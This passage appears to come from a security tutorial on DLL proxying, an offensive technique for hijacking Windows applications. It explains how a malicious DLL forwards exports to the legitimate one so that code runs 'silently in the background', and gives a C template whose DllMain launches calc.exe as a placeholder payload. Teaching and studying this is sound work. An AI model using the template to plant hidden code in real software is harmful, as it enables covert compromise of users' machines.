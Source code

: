 Before we can start, we need to be aware of two issues which are also important requirements for the crafted malicious replacement DLL:

1. To load correctly, a malicious DLL must export the functions required by the application, even if those functions are implemented as placeholders. Otherwise, both the application and the malicious DLL will fail to load.
2. If the malicious DLL exports the functions required by the application but does not implement them equivalently to the legitimate DLL, the application loads the DLL and probably executes the malicious code (e.g. in the `DllMain()` function), but afterwards the application crashes.

The solution for these two problems is DLL Proxying. Like shown above it is required to create a malicious DLL that exports all of the functions of the legitimate DLL. Now instead of
implementing the functions the malicious DLL just forwards the calls to the legitimate DLL.

Forging the DLL on this way ensures, that the application behaves normally without crashing and the execution of the malicious code can happen silently in the background.

## Creating the Proxy DLL

Let's assume that the target DLL whish should be proxied is called `target_original.dll` and the proxy DLL `target.dll`. 

With these assumptions it is possible to use a basic template for `payload.c`:

```c
#include <processthreadsapi.h>
#include <memoryapi.h>

void Payload()
{
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  
  char cmd[] = "calc.exe";
  
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));

  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

